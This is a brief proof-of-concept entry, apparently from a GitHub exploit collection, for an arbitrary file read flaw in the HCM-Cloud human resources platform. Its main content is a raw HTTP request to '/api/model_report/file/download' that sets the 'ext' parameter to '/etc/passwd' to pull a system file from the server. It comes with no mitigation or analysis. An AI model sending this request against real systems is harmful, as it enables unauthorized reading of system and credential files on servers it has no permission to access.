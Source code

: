 # hcm_download_fileread

```
GET /api/model_report/file/download?index=/&ext=/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Connection: close
```
from: https://github.com/wy876/POC/blob/main/%E6%B5%AA%E6%BD%AE%E4%BA%91/HCM-Cloud%E4%BA%91%E7%AB%AF%E4%B8%93%E4%B8%9A%E4%BA%BA%E5%8A%9B%E8%B5%84%E6%BA%90%E5%B9%B3%E5%8F%B0download%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
